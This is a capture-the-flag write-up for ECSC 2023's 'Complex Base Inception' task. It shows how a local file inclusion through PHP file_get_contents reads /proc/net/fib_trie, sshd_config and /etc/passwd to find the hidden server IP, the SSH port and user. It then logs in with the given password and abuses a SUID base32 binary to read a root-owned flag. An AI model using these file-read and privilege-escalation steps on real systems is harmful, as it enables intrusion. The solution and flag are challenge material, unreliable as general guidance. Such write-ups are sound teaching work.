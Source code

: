 # Complex Base Inception

> Simply log in via SSH.
> 
> `TDBuZzRuZFN0cjBuZ1Bhc3Mxc1RoZUJhc2VTb21lVzNpcmRUeHQ=`
> 
> Oh, I forgot to add, the website seems to be using some kind of a proxy, and I don't know the real address.
> 
> https://complex-base-inception.ecsc23.hack.cert.pl/

## Recon
The website contains a form which allows to upload photos and a subpage to view uploaded photos. Clicking `send` sends a XHR request to the server with `image` form field set to `data:image/png;base64,[base64-encoded image]`. Upon changing the value of the field to `foobar` and inspecting response content, the following can be seen:

![warning](media/warning.png)

The `image` field is passed to php function `file_get_contents`, which means we can use it to read arbitrary files from the server's filesystem. Their contents can be intercepted in the gallery, by base64-decoding souces of `img` tags present there.

## Exploiting the LFI
First, let's learn the true IP address of the server by reading `/proc/net/fib_trie`. The entry that's important is:
```
+-- 38.60.249.0/24 2 0 1
        [...]
        |-- 38.60.249.147
           /32 host LOCAL
        [...]
```
So the IP address is `38.60.249.147`. However, port 22 is closed on this host, so it's necessary to find the correct port in `/etc/ssh/sshd_config`:
```
#	$OpenBSD: sshd_config,v 1.103 2018/04/09 20:41:22 tj Exp $

[...]

Include /etc/ssh/sshd_config.d/*.conf

Port 64
[...]
```
Finally, let's find users present on the server by reading `/etc/passwd`:
```
root:x:0:0:root:/root:/bin/bash
[...]
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
[...]
base64:x:1001:1001::/home/base64:/bin/bash
[...]
```
Only these 3 users have a login shell set. The correct user is `base64` and its password is given in base64-encoded form in the task description: `L0ng4ndStr0ngPass1sTheBaseSomeW3irdTxt`. Now it's possible to log in using
```sh
$ ssh base64@38.60.249.147 -p 64
```
and the correct password.

In the user's home folder, a file named `flag.b64` is present, but it is owned and can only be read by root.

## Finding a way to read the flag
Running a tool like [linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20230724-deeec83e) reveals that the executable `/usr/bin/base32` has SUID bit set, which means it can be used to read the flag:
```sh
$ /usr/bin/base32 ~/flag.b64 | base32 -d | base64 -d
ecsc23{some_unguessable_text_and_some_salt_dtcpkhaa}
```
(Notice that it's necessary to provide the full path to the executable to read the file, since `base32` in the PATH is actually `/usr/sbin/base32` and doesn't have the SUID bit set.)

## Flag
`ecsc23{some_unguessable_text_and_some_salt_dtcpkhaa}`